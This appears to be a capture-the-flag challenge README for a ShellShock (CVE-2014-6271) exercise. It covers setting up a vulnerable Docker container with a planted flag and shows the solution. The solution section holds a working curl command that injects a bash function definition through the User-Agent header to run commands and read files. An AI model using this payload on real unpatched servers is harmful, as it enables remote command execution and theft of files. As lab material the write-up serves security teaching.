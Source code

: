 # So Shocked

## Author

[Justin Garey](https://github.com/Justin-Garey)

## Abstract
So Shocked makes use of ShellShock or CVE-2014-6271. There is a bug in the bash which should be exploited. 

## Prompt
I would be shocked if you could use the shell to get this flag.

## Setup
- Using a premade docker container, we can make a slight modification to add our flag.
```
FROM vulnerables/cve-2014-6271

RUN echo "BobcatCTF{This is a flag}" > /etc/security/flag.txt
```
- The contestant should pull the image and run it like:
```
docker run --rm -it -p 8080:80 so-shocked
```

## Solving the challenge
- The contestant will eventually get the idea that this is ShellShock and should then research how it works.
- Once they realize they need to use curl commands to access the contents of the container, they will come up with a solution similar to:
```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /*/*/flag*'" http://localhost:8080/cgi-bin/vulnerable
```

## References
- https://youtu.be/-Zy6ILYh4zM
- https://hub.docker.com/r/vulnerables/cve-2014-6271
- https://nvd.nist.gov/vuln/detail/cve-2014-6271

